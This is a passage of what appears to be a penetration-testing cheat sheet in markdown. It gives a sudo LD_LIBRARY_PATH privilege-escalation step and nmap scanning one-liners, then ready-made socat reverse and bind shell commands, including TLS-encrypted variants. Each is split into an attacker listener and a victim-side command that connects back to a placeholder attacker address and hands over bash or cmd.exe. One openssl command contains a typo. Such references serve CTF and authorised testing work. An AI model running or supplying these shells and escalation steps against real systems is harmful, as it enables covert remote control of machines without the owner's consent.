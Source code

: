 ~~~
~~~

run sudo referencing the path of your new file, in this case, the current directory

`sudo LD_LIBRARY_PATH=. find`

### Useful NMAP (in work)

~~~
target=10.10.10.10;sudo nmap -p$(sudo nmap -p- --min-rate=1000 $target | grep ^[0-9] | cut -d '/' -f 1| tr '\n' ',' | sed s/,$//) -sC -sV -oA nmap/initial $target #only good for one target. full port scan followed by targeted script scan
 
nmap -sC -sV -oA nmap/initial 10.10.10.10
~~~

### Using socat for fully interactive reverse shells
Socat is a more advanced version of netcat. 
On attacker system:
~~~
socat file:`tty`,raw,echo=0 tcp-listen:4444 
~~~

On victim:
~~~
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[attack_ip]:4444
~~~

#### encrypted socat shell
Socat can use certs to encrypt traffic. 

create  private key and cert to encrypt traffic
~~~
openssl req -newkey rsa;2048 -nodes -keyout enc.key -x509 -days 365 -out enc.crt
~~~
Covert it to .pem file needed for socat
~~~
cat enc.key enc.crt > enc.pem
~~~
start listener on attacking system:
~~~
socat -d -d OPENSSL-LISTEN:4433,cert=enc.pem,verify=0,fork STDOUT
~~~
connect from victim to complete reverse shell:
~~~
linux:
socat OPENSSL:attack_ip:4433,verify=0 EXEC:/bin/bash

windows:
socat OPENSSL:attack_ip:4433,verify=0 EXEC:'cmd.exe',pipes
~~~

#### socat encrypted bind shell
follow same steps to create the .pem file needed first (above), then:
~~~
on victim:
socat OPENSSL-LISTEN:4433,cert=enc.pem,verify=0,fork EXEC=/bin/bash

on attack system:
socat - OPENSSL:victim_ip:4433,verify=0
~~~~

